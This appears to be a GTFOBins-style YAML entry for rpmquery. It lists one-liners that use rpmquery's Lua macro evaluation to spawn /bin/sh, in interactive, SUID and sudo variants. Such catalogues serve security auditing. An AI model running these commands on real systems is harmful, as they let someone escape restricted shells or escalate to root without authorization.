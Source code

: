 ```yaml
---
functions:
  execute-interactive:
  - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
  - code: ./rpmquery --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo-enabled:
  - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
---
```


